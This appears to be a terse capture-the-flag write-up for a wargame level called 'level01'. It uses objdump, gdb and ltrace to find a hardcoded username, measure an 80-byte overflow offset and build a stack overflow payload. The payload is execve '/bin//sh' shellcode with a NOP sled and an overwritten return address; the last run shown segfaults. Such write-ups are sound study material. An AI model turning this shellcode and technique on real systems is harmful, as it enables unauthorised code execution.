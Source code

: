 
```
objdump -t level01 | grep bss
0804a040 g     O .bss	00000064              a_user_name

objdump -t level01 | grep text
080484d0 g     F .text	000000e6              main
08048464 g     F .text	0000003f              verify_user_name
```

```
disass main

 0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 
 0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
```

```
disass verify_user_name

0x0804847d <+25>:	mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

```
disass verify_user_pass

```
`cyclic 100`
```
Program received signal SIGSEGV, Segmentation fault.
0x61616175

Desktop cyclic -l 0x61616175
80
```

```
  0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  0x08048585 <+181>:	mov    %eax,0x5c(%esp)
  
  b *main+181
  
  run 
  
  Enter Username: dat_wil
  Enter Password:
  AAAA
  
  x/80wx $esp
  0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
  0xffffd690:	0xffffd8a1	0x0000002f	0xffffd6ec	0x41414141
```

also u can use the syntax:
`run < <(python -c 'print("dat_wil\nAAAA\n")')`
`run < <(python -c 'print("dat_wil")' && python -c 'print("AAAA")')` / `run < <(python -c 'print "dat_wil"' && python -c 'print "AAAA"')`

```
run < <(python -c 'print "dat_will"' && python -c 'print "A" * 80 + "BBBB"')
x $ebp+4
0xffffd6ec:	0x42424242
```
```
run < <(python -c 'print "dat_wil"' && python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 +  "\xff\xff\xd6\x9c"[::-1]')


x $ebp+4
0xffffd6ec:	0xffffd69c

x *0xffffd6ec
0xffffd69c:	0x99580b6a
```


nothing

```
ltrace ./level01

puts("Enter Password: "Enter Password:
)                                         = 17
fgets(AAAA
"AAAA\n", 100, 0xf7fcfac0)                                 = 0xffffd6ac


level01@OverRide:~$ (python -c 'print "dat_will"'; python -c 'print  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"  + "\x90" * 59 + "\xff\xff\xd6\xac"[::-1]'; cat -)  | ./level01

pwd
Segmentation fault (core dumped)
```









